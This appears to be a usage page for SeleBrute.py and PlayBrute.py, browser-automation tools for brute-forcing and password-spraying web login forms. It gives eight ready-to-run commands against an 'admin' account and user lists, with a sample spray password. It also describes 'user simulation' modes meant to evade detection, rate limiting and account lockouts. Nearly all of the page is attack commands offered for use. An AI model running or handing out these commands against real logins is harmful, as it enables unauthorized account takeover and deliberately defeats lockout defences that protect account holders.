 # Command Usage Examples

## `SeleBrute.py` (Selenium)

These commands require a WebDriver (`chromedriver` or `geckodriver`) specified with the `--driver-path` argument.

### Brute Force (Fast Mode)

Quickly attempts many passwords for a single user. Best for offline labs or systems without lockout policies.

```bash
python3 SeleBrute.py \
  --driver-path "/path/to/your/chromedriver" \
  --browser "chrome" \
  --url "http://192.168.1.1/index.php" \
  --username "admin" \
  --passwords-file "/path/to/your/passwords.txt" \
  --username-locator-strategy "id" \
  --username-locator-value "fm_usr" \
  --password-locator-strategy "id" \
  --password-locator-value "fm_pwd" \
  --loginbutton-locator-strategy "xpath" \
  --loginbutton-locator-value "//button" \
  --headless
```

### Brute Force (User Simulation Mode)

Slower and more deliberate, this mode mimics human behavior (typing, mouse movement, random waits) to avoid detection.

```bash
python3 SeleBrute.py \
  --driver-path "/path/to/your/chromedriver" \
  --browser "chrome" \
  --url "http://192.168.1.1/index.php" \
  --username "admin" \
  --passwords-file "/path/to/your/passwords.txt" \
  --username-locator-strategy "id" \
  --username-locator-value "fm_usr" \
  --password-locator-strategy "id" \
  --password-locator-value "fm_pwd" \
  --loginbutton-locator-strategy "xpath" \
  --loginbutton-locator-value "//button" \
  --simulate-user \
  --headless
```

### Password Spray (Fast Mode)

Quickly attempts a single, common password against a long list of usernames.

```bash
python3 SeleBrute.py \
  --driver-path "/path/to/your/chromedriver" \
  --browser "chrome" \
  --url "http://192.168.1.1/index.php" \
  --usernames-file "/path/to/your/users.txt" \
  --password "Winter2025!" \
  --username-locator-strategy "id" \
  --username-locator-value "fm_usr" \
  --password-locator-strategy "id" \
  --password-locator-value "fm_pwd" \
  --loginbutton-locator-strategy "xpath" \
  --loginbutton-locator-value "//button" \
  --headless
```

### Password Spray (User Simulation Mode)

A slower, more stealthy password spray that is less likely to trigger rate limiting or account lockouts.

```bash
python3 SeleBrute.py \
  --driver-path "/path/to/your/chromedriver" \
  --browser "chrome" \
  --url "http://192.168.1.1/index.php" \
  --usernames-file "/path/to/your/users.txt" \
  --password "Winter2025!" \
  --username-locator-strategy "id" \
  --username-locator-value "fm_usr" \
  --password-locator-strategy "id" \
  --password-locator-value "fm_pwd" \
  --loginbutton-locator-strategy "xpath" \
  --loginbutton-locator-value "//button" \
  --simulate-user \
  --headless
```

---

## `PlayBrute.py` (Playwright)

These commands do **not** require a `--driver-path` argument, as Playwright manages its own browser binaries.

### Brute Force (Fast Mode)

Quickly attempts many passwords for a single user.

```bash
python3 PlayBrute.py \
  --browser "chromium" \
  --url "http://192.168.1.1/index.php" \
  --username "admin" \
  --passwords-file "/path/to/your/passwords.txt" \
  --username-locator-strategy "id" \
  --username-locator-value "fm_usr" \
  --password-locator-strategy "id" \
  --password-locator-value "fm_pwd" \
  --loginbutton-locator-strategy "xpath" \
  --loginbutton-locator-value "//button" \
  --headless
```

### Brute Force (User Simulation Mode)

Slower and more deliberate, this mode mimics human behavior to avoid detection.

```bash
python3 PlayBrute.py \
  --browser "chromium" \
  --url "http://192.168.1.1/index.php" \
  --username "admin" \
  --passwords-file "/path/to/your/passwords.txt" \
  --username-locator-strategy "id" \
  --username-locator-value "fm_usr" \
  --password-locator-strategy "id" \
  --password-locator-value "fm_pwd" \
  --loginbutton-locator-strategy "xpath" \
  --loginbutton-locator-value "//button" \
  --simulate-user \
  --headless
```

### Password Spray (Fast Mode)

Quickly attempts a single, common password against a long list of usernames.

```bash
python3 PlayBrute.py \
  --browser "chromium" \
  --url "http://192.168.1.1/index.php" \
  --usernames-file "/path/to/your/users.txt" \
  --password "Winter2025!" \
  --username-locator-strategy "id" \
  --username-locator-value "fm_usr" \
  --password-locator-strategy "id" \
  --password-locator-value "fm_pwd" \
  --loginbutton-locator-strategy "xpath" \
  --loginbutton-locator-value "//button" \
  --headless
```

### Password Spray (User Simulation Mode)

A slower, more stealthy password spray that is less likely to trigger account lockouts.

```bash
python3 PlayBrute.py \
  --browser "chromium" \
  --url "http://192.168.1.1/index.php" \
  --usernames-file "/path/to/your/users.txt" \
  --password "Winter2025!" \
  --username-locator-strategy "id" \
  --username-locator-value "fm_usr" \
  --password-locator-strategy "id" \
  --password-locator-value "fm_pwd" \
  --loginbutton-locator-strategy "xpath" \
  --loginbutton-locator-value "//button" \
  --simulate-user \
  --headless
```